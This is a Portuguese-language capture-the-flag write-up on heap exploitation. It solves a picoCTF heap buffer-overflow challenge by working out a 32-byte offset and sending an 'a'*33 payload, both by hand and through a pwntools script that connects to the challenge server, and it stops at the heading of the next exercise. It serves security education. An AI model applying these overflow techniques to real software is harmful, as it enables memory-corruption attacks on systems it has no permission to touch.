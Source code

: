 ## Autor: Gebra  
  
# Heap:

A Heap é uma área da memória dinâmica(RAM) usada por programas para alocar e desalocar dados de forma flexível durante a
execução do código. E vamos explorar as seguintes vulnerabilidades: 

1.Buffer Overflow: Ultrapassar o tamanho alocado de memória em uma variável para alterar memória adjacente. 

2.UAF(Use After Free): Programa Acessa bloco de memória já liberado, permitindo a modificação dos dados.

## Exercício 0:
### Resolução via terminal:
Esse exercício foi projetado para ser de estágio inicial, por isso a Heap pode ser visualizada dentro do próprio código.
```python
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
```

Executando o código, é possivel descobrir os endereços de cada variável na heap.
![image](https://github.com/user-attachments/assets/655c496d-9e70-4afd-9f06-bb07769e6609)


Com esses dados, podemos verificar as distância entre os endereços e conseguir o offset dos dois, assim descobrimos que é 
32 bytes e que precisamos fazer um estouro desse tamanho.
Digitando esse comando no cmd, você receba a string de 33 caracteres pronta para teste.
    
    python3 -c 'print("a"*33)'

Colocando essa string como input do buffer você irá sobrescrever "pico" por "a"*32 e "bico" por "a". 
![image](https://github.com/user-attachments/assets/0c9ee24a-26aa-453a-9832-a249eb25d012)


Assim você consegue a flag ao digitar 4.

# Resolução via pwntools:
![image](https://github.com/user-attachments/assets/b7f59996-690f-43d6-8da9-307f1a6fe4f9)

Criamos p como process para teste e depois partimos para o remote onde conseguiremos a flag verdadeira.
```python
    p = remote("tethys.picoctf.net", 55850)
```
Depois Criamos um payload para enviar para o código.
```python
    payload = "a" * 33
```
Depois enviamos o payload para o código e recebemos a flag.
```python
    p.recvuntil("choice:")

    p.sendline("2")
    p.sendline(payload)
    
    p.recvuntil("choice:")
    p.sendline("4")

    print(p.recvall())
```


## Exercício 1:
Para o restante dos exercícios vou explicar apenas pelo pwntools para acostumarmos com essa ferramenta.


